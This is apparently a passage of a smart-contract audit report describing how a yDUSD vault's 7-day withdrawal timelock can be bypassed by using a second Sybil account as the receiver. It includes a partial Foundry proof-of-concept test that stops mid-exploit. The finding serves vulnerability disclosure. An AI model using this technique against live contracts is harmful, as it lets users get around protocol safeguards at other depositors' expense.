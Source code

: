 ```solidity

            emit Withdraw(caller, receiver, owner, assets, shares);
        }
```

*   `@3.1`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L237-L239>
*   `@3.2`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L247>
*   `@3.3`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L248>

### Impact

Users can withdraw their `DUSD` assets from the `yDUSD` vault without waiting for the 7-day period, breaking the vault's timelock mechanism's invariant.

### Proof of Concept

This section provides a coded PoC.

Place the `test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant()` in the `.test/YDUSD.t.sol` file and declare the following `import` directive at the top of the test file: `import {IyDUSD} from "interfaces/IyDUSD.sol";`.

To run the test, execute the command: `forge test -vv --mt test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant`.

The PoC shows that an exploiter can withdraw their `DUSD` assets in the `sender` account using another withdrawer account, i.e., the `receiver` account, without waiting for the 7-day period.

```solidity
function test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant() public {
    // Require: import {IyDUSD} from "interfaces/IyDUSD.sol";

    // ----- Setup PoC -----
    // Mint dusd to sender
    vm.prank(_diamond);
    token.mint(sender, DEFAULT_AMOUNT);

    // Match at oracle
    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);

    skip(C.DISCOUNT_WAIT_TIME);
    // ----- Setup PoC -----

    // Receiver deposits DUSD into the vault to get yDUSD
    vm.prank(receiver);
    rebasingToken.deposit(DEFAULT_AMOUNT, receiver);

    // Receiver proposes for withdrawal
    vm.prank(receiver);
    rebasingToken.proposeWithdraw(DEFAULT_AMOUNT);

    // Skip 7 days to avoid the ERC4626WaitLongerBeforeWithdrawing error
    skip(7 days);

    // Sender deposits DUSD into the vault to get yDUSD
    vm.prank(sender);
    rebasingToken.deposit(DEFAULT_AMOUNT, sender);

    // To exploit the vulnerability, perform the following steps:
    //
    // 1. Sender approves shares transfer for Receiver (another Sybil account)
    vm.prank(sender);
```